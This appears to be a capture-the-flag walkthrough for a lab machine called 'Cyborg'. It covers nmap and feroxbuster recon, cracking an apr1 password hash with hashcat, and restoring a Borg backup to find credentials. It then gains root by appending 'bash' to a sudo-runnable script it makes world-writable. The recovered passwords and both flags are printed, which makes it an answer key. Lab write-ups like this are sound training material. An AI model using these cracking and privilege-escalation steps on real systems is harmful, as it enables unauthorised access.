

# Cyborg

--------------------------------------------------------------------

**TOOLS USED**: nmap, feroxbuster, hashcat, borg

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.229.132

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info
-p-: scan all ports
-T SCAN_SPEED (0-5)
```
nmap -sC -sV -p- -T5 10.10.229.132
```


**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Enumerate hidden directories on webserver
```
feroxbuster -u http://10.10.229.132 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Directory of Interest: /admin, /etc


**USERNAME**: alex

Look for music archive<br>


squid config files publicly available<br>
http access allowed

music_archive found


**PASSWORD HASH**: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn. 

also downloaded archive from 10.10.229.132/admin/archive.tar

archive is Borg Backup repo

### 2. CRACK HASH

```
hash-identifier
```


**HASH TYPE**: md5 (apr)

```
echo "\$apr1\$BpZ.Q.1m\$F0qqPwHSOG50URuOVQTTn." > hash
hashcat -a0 -m1600 hash /usr/share/wordlists/rockyou.txt.gz
```


**PASSWORD**: squidward

### 3. BORG BACKUP

Install borgbackup and restore backup
```
sudo apt install borgbackup
mkdir borg
borg mount home/field/dev/final_archive borg
```


Now we have access to alex's home directory backup

**PASSWORD**: S3cretP@s3



### 4. SSH LOGIN

```
ssh alex@10.10.229.132
```


**USER FLAG**: flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}

### 5. PRIVILEGE ESCALATION

check privileges
```
sudo -l
```


alex can run /etc/mp3backups/backup.sh as root without a password

```
ls -l /etc/mp3backups/backup.sh
```


alex owns backup.sh so we can make it writable and inject our own code

```
chmod 777 /etc/mp3backups/backup.sh
echo "bash" >> /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh
```


**ROOT FLAG**: flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}